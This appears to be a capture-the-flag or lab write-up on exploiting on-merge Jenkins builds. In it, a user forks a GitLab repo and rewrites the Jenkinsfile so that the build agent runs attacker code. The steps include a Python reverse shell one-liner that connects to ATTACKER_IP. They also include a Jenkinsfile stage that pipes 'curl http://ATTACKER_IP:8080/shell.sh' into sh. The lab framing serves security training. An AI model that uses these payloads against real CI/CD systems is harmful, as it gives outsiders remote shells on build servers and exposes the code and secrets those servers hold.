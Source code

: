 ### Exploiting a Merge Build -

_Readme.md_ of Ash's gitlab repo for android build - http://gitlab.tryhackme.loc/ash/Merge-Test

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/a6e88bc7-0f50-4669-83de-ec0f0e197c24)

Ash is getting tired of users making merge requests to his code, only for it to break his pipelines! To combat this, he has enabled _on-merge builds_. This means that a build will be executed to test the merge code as soon as a merge request is made. This is a very common configuration. Certain CI/CD software, such as Jenkins, enables this by default! The issue, however, is that this could lead to a compromise. 

Reviewing the source code, we see that Ash uses a **_Jenkinsfile_**. This is a CI/CD script that will be executed by Jenkins through a webhook. **Effectively, when certain actions are performed, such as a merge request is opened, or code is pushed to a branch, Gitlab will notify Jenkins of the change through a webhook. Jenkins would then pull the source code and execute the steps listed in the Jenkinsfile before providing feedback to Gitlab on the outcome of the build.**

- However, this is also what creates the issue. **If a merge request is going to be built and any user can modify both the source code and the CI/CD Jenkinsfile, it means that users can cause the build agent to build malicious code.**


To perform this process, we will first need to fork Ash's repo. 
1. Navigate to the repo and press the Fork option.
2. Select your namespace, mark the project as Private, and select Fork project.
3. Alter the Jenkinsfile (**CI/CD pipelines are often just code execution as a feature**, and we can leverage this by updating the Jenkinsfile to simply execute a shell for us! )
4. Create a `shell.sh` script with the following contents in our attacker machine & host it using - `python3 -m http.server 8080`
```python
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
5. Edit the _Jenkinsfile_ with the following contents & commit the file:
```yml
pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://ATTACKER_IP:8080/shell.sh | sh
                '''                 
              }             
          }
       }       
    }
```
6. To have Jenkins execute our now malicious _Jenkinsfile_, we need to create a merge request.

![image](https://github.com/sh3bu/CTF-writeups/assets/67383098/8eaeb9e6-4474-4679-9643-6679caf1afec)


[kali]: runner-kali